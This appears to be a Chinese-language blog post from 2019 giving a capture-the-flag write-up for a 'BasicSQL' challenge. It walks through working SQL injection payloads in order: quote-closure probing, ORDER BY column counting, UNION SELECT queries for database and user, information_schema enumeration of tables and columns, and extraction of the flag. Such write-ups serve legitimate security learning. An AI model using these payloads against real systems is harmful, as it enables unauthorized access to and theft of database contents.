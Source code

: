 ```yaml
---
layout:     post
title:      2019-04-08 收获 总结
subtitle:   BasicSQL解题
date:       2019-04-08
author:     DaYou
header-img: img/post-bg-cook.jpg
catalog: true
---
```



## 0x1 题目要求
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g1vik0u1atj30gk0bamx3.jpg)
注：-[题目中的连接](http://123.207.149.64:23354/)
打开链接后的页面：
![](https://wx1.sinaimg.cn/mw1024/0079f8Holy1g1vik0vwimj30fx0epdfy.jpg)

## 0x2 解题步骤
解题的思路和步骤大多是根据这位-[大佬的博客](https://blog.csdn.net/huanghelouzi/article/details/82999684)来的

### 1. 首先判断sql语句闭合方式
在select输入框里输入：
```
hello'
```
页面出现错误。在select输入框里输入：
```
hello"
```
页面没出现错误，但是也没有查找出来内容。据此判断后端的sql语句为：
```
select xxxx from xxxx where select = 'input' 
```

### 2. 判断返回的列数
在select输入框里输入：
```
hello' order by 1 #
```
页面无错误，无查询结果。增大列数至，页面出现错误，据此判断查询的最大列数为3.后端返回前端的格式为：
```
hello' union select 1,2,3 #
```
输入这句话后的显示为：
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1vik0uuylj30cj0bfmwy.jpg)
第一列没有显示，第二列和第三列分别为新闻名称和新闻内容。接下来就可以改变参数获取当前数据库名、用户名等数据了
### 3. 获取数据库信息
```
hello' union select 1,database(),user() #
```
![](https://wx2.sinaimg.cn/mw1024/0079f8Holy1g1vik0zjvbj30ca0bpmx4.jpg)
数据库名为user
### 4. 获取当前数据库的所有表名
```
hello' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())#
```
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g1vik0uc6wj30n60acglg.jpg)
可见我们想要的flag存储在表f1agfl4gher3中
### 5. 获取f1agfl4gher3表中的全部列名
```
hello'  union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='f1agfl4gher3')#
```
结果：
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1vik0vwybj30nb0ag744.jpg)
列h3r31sfl4g是我们想要的
### 6. 获取h3r31sfl4g列中的内容
```
hello'  union select  1,id,h3r31sfl4g from f1agfl4gher3#
```
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1vik0w7jxj30ev0akmwz.jpg)
flag得到了~